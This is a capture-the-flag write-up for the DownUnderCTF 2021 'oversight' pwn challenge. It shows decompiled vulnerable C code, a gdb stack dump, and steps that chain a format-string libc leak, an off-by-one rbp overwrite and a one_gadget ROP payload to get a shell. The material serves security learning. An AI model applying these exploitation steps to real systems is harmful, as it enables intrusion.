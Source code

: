 [link(github.com)](https://github.com/DownUnderCTF/Challenges_2021_Public/blob/main/pwn/oversight/WRITEUP.md)

> Arch:     amd64-64-little
>
> RELRO:    Partial RELRO
>
> Stack:    No canary found
>
> NX:       NX enabled
>
> PIE:      PIE enabled

`leave` is short for `mov rsp, rbp` and `pop rbp` . So if we write a null byte in the lowest byte of `rbp` of `echo` function (function write in `echo_inner` function, but actually we write into stack (array v2) of `echo`  function)

```c
echo(unsigned int a1)
{
  char v2[256]; // [rsp+0h] [rbp-100h] BYREF
  return echo_inner(v2, a1); // a1[(int)fread(a1, 1uLL, a2, stdin)] = 0;// vuln
}
```

the `get_num_bytes` func:

```assembly
...
call    echo
mov     r12, [rbp+var_8]
leave
retn
```

the rbp of `echo` function  will pointer to lower address (in v2 array area). Due to `leave, retn` is called 2 times, then the following `ret` instruction begins a rop chain

**The exploit**

------

use format string to leak libc.address. i found the offset is 11

```assembly
0x7fffffffdf38 ◂— 0xa786c6c2431 /* '1$llx\n' */		; %11
0x7fffffffdf40 —▸ 0x7ffff7dca2a0 (_IO_file_jumps) ◂— 0x0
0x7fffffffdf48 ◂— 0x0
0x7fffffffdf50 ◂— 0x0
0x7fffffffdf58 —▸ 0x7ffff7a6f4d3 (_IO_file_overflow+259)
0x7fffffffdf60 ◂— 0x10
0x7fffffffdf68 —▸ 0x7ffff7dce760 (_IO_2_1_stdout_)	; %17		
0x7fffffffdf70 —▸ 0x555555556075 ◂— 'Lets play a game'
0x7fffffffdf78 —▸ 0x7ffff7a62c42 (puts+418)
0x7fffffffdf80 —▸ 0x7ffff7de3b40 ◂— push   rbp
0x7fffffffdf88 ◂— 0x0
0x7fffffffdf90 —▸ 0x7fffffffdfb0 —▸ 0x555555555430 (__libc_csu_init)
0x7fffffffdf98 —▸ 0x5555555550e0 (_start)
0x7fffffffdfa0 —▸ 0x7fffffffdfb0 —▸ 0x555555555430 (__libc_csu_init)
0x7fffffffdfa8 —▸ 0x5555555550d5 (main+37)
0x7fffffffdfb0 —▸ 0x555555555430 (__libc_csu_init)
0x7fffffffdfb8 —▸ 0x7ffff7a03bf7 (__libc_start_main+231) ◂— mov    edi, eax; %27
```

we can use %17 or %27 to leak address. run gdb with libc

```assembly
0x0000000000021bf7 <+231>:   mov    edi,eax ; __libc_start_main
```

now the issue is i dont know where we write rop chain `pop_rdi, /bin/sh, system` because different between local and remote enviroment variables, will have different stack address. So i use one_gadget to full fill v2, then we dont worry about it.

